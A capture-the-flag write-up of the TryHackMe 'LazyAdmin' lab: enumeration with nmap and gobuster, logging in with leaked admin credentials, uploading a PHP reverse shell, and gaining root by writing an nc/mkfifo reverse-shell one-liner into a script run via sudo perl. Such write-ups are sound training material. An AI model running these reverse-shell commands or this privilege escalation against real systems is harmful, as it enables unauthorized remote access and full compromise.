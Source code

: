 ```yaml
---
title: TryHackMe - LazyAdmin
author: Bonface
date: 2024-02-24 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ssh
  - http
  - gobuster
image:
  path: /assets/img/try%20hack%20me%20/Easy/LazyAdmin/0.jpeg
  alt: LazyAdmin
---
```


# LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



##  site

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/1.png)


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/2.png)

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/3.png)

```sh
/inc
```
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/4.png)

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/5.png)


![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/6.png)

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/7.png)

log in using the details.  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/8.png)

Let's look around searching for an exploit vector.  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/9.png)

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands
will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

**now we have a shell !!!**

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/10.png)  

user flag = THM{...}  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/11.png)



# priv esc

First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/12.png)  
Let's first look at the backup.pl   
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/13.png)  

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/14.png)


```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/15.png)

